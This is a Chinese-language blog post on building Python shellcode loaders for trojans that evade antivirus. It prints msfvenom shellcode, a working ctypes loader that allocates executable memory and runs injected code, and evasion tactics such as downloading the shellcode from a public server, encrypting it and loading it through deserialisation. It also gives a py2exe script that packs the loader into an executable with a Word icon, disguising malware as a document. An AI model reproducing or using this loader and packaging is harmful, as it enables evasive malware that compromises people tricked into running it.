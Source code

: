 ```yaml
---
title: Python ShellCode加载器简述   --花无名
layout: mypost
categories: [木马免杀]
---    
```


## 什么是ShellCode

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制之机械码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机械码，让电脑可以执行攻击者的任意指令。

简单说，shellcode即为一段用于计算机执行命令的指令代码。

如使用msf生成一段调用机器计算器的指令

`msfvenom -p windows/x64/exec CMD=calc.exe -f python`

shellcode如下

```
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"
buf += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
buf += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"
buf += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"
buf += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
buf += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"
buf += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"
buf += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"
buf += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
buf += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
buf += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"
buf += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"
buf += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
buf += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
buf += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
buf += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"
buf += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"
buf += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"
buf += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
buf += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"
buf += b"\x78\x65\x00"
```

## 什么是shellcode加载器

shellcode加载器可理解为专门用于加载计算机指令代码（shellcode）的一段程序或工具

## 常用的python shellcode加载器

```
#!/usr/bin/python3
import ctypes

#shellcode 放这个位置
c = b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31"

shellcode = bytearray(c)

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

## 免杀方法

1.分离免杀：将shellcode放到公网，通过下载方式加载shellcode，或同时放到本地，执行shellcode加载器时可以同时加载shellcode。

2.shellcode加密：实验比较发现，python加载器将shellcode做一下简单加密解密处理后，可过部分杀软

3.反序列化：可将shellcode加载器的代码做序列化处理后，反序列化加载，实验发现可过大部分杀软。

## python可执行文件打包

pyinstaller

这个打包方式在个别的杀软会默认报毒，哪怕只是打包一个简单的输出语句

![image-20210926101728145](/assets/images/20210926/image-20210926101728145.png)

py2exe

可尝试使用这个打包方式，但是也有一个通病就是python的打包文件都比较大，大概在5m左右，不过，可以实现免杀效果好的话也是可以接受的。

打包代码如下：

```
# setup.py 用于py2exe打包
from distutils.core import setup
import py2exe
setup(
    options={
        'py2exe': {
            'optimize': 2, # 优化级别最高，
            'bundle_files': 1, # 将生成的调用文件打包进exe文件
            'compressed': 1, # 压缩
        },
    },
    windows=[{"script": "pyload.py", #需要打包的程序的文件路径，windows->GUI exe的脚本列表,console-> 控制台exe的脚本列表
              "icon_resources": [(1, "word.ico")]}], # 程序的图标的图片路径
    zipfile=None, # 不生成library.zip文件，则捆绑在可执行文件中
)
```

本文只是写一下python免杀的大致思路，病毒与反病毒是一个长期课程，更多的方法和思路要根据当前的网络环境和防护方式来实现。

注：本文参考小维师傅文章编写